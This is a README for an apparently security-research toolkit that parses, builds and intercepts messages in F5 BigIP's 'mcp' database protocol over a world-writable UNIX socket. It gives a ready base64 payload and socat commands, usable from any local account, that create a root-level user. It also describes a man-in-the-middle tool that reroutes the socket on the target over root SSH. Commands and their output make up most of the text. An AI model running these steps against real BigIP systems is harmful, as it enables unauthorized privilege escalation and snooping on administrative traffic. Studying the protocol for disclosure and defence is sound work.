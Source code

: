This isn't really done or ready yet, but I wanted to get the code checked in.

This basically implements F5's database protocol, "mcp", which operates through
a UNIX domain socket.

# What is mcp?

MCP is a proprietary (AFAICT) database used by F5 BigIP. It's accessed through
`/var/run/mcp`, a UNIX domain socket with 0777 permissions (ie, any user can
access it).

The protocol is TLV-style, which a whole bunch of types (over 41,000). They're
all listed in [mcp-objects.txt](/mcp-objects.txt).

I implemented a parser that you can find in [mcp-parser.rb](/mcp-parser.rb),
and you can find a bunch of different messages in
[mcp-parser-tests.rb](/mcp-parser-tests.rb).

I also created a builder, [mcp-builder.rb](/mcp-builder.rb), although it's not
really designed to be easy to use. We do have a pre-defined function that
creates an MCP packet that creates a root-level user account, which is pretty
cool.

# Building and Sending MCP Messages

To communicate with MCP directly, you'll generally use `socat`. For example,
we can use `mcp-builder.rb` to create a message (using `gzip` + `base64` for
easier demos):

```
$ ruby mcp-builder.rb | gzip - | base64 -w0
H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxQ5KPA8gYCLGBaQ4ANbBwnA3tRfl5JanGJADtEowAHzJ5ox5ycWCDzBBZzDnALgukd3EJo5sifBAtwMLA55+fm5ucJxkPM5ZYEi3MzcOonZebpJyUWZ3CLgKUYuYXBUjkMWSpmKkVJJWZ5ocFB7s5VnlX5PhEqRUZ5vhk5RqY+5iZ5pUYm2aVJjvlVJYXBbklpiSlJZWaFeSmeeqa5roVRufph+oX6JXluejlB7pWpTnlZAcVFju4V5gbOKWnFZa76pZXhSb5uBYUFJfpgJyL7Kw/sHwYAd5yKZH8BAAA=
```

Then, on the host with `/var/run/mcp`, use socat to connect and save the
response again as base64 (note: this can be any user account, since the socket
is 0777):

```
# echo -ne 'H4[...]A=' | base64 -d | gunzip - | socat -t100 - UNIX-CONNECT:/var/run/mcp | base64 -w0
AAAAHgAAAAAAAAAAAAAAAAtUAA0AAAAWC1UABQAAAAALVwAMECgLWAAMECkAAAAAAB4AAAAAAAAAAAAAAAALVAANAAAAFgtVAAUAAAAAC1cADAtaC1gADAsRAAA=
```

And finally, we can parse that response:

```
$ echo -ne 'AAAAHgAAAAAAAAAAAAAAAAtUAA0AAAAWC1UABQAAAAALVwAMECgLWAAMECkAAAAAAB4AAAAAAAAAAAAAAAALVAANAAAAFgtVAAUAAAAAC1cADAtaC1gADAsRAAA=' | base64 -d | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry
```

You can, of course, do it all as a single command:

```
$ ruby mcp-builder.rb | ssh root@10.0.0.136 socat -t100 - UNIX-CONNECT:/var/run/mcp | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [96 bytes]):
 result_code (ulong) = 0x01020066 (16908390)
 result_message (string [78 bytes]) = "01020066:3: The requested user (rontest) already exists in partition Common."
```

# Man in the Middle Inspection

I also wrote a tool to inspect database queries - [mcp-mitm.rb](/mcp-mitm.rb).
To run it, edit the script to set up the variables:

```
ME = "10.0.0.146"
TARGET = "10.0.0.136"
PORT1 = 1234
PORT2 = 1235
DO_SETUP = true
```

If `DO_SETUP` is `true`, make sure you can `ssh root@<TARGET>` without a
password. Otherwise, it'll tell you which commands to run.

Note that this tries to clean up, but can potentially destabilize the server
(because we're moving a named pipe). Don't run against prod. And if you do
break the server, rebooting will fix it.

Once it's configured, just run it:

```
$ ruby ./mcp-mitm.rb
Configuration (edit the script to change, this is a PoC!):

Your IP: 10.0.0.146
Target IP: 10.0.0.136
Listening port 1: 1234
Listening port 2: 1235
SSH into the target to set things up: true
  (Make sure you can ssh into the host as root with no password)
  (Yes yes, I know it's a PoC!)
SSH'ing into the server to set things up
Ready!


---------------------------------------------------

Received session @ #<TCPSocket:0x000000000170d630> <--> #<TCPSocket:0x000000000170d658>

user_authenticated (structure [15 bytes]):
 user_authenticated_name (string [7 bytes]) = "admin"

start_transaction (structure [8 bytes]):
 start_transaction_load_type (ulong) = 0x00000000 (0)
[...]
```

Ctrl-c will stop it, and fix the socket:

```
^CSSH'ing into the server to fix things
Session 1 closed?
Ending thread
Ending thread
Traceback (most recent call last):
        3: from ./mcp-mitm.rb:149:in `<main>'
        2: from ./mcp-mitm.rb:149:in `loop'
        1: from ./mcp-mitm.rb:151:in `block in <main>'
./mcp-mitm.rb:151:in `accept': Interrupt
```

And that's it!
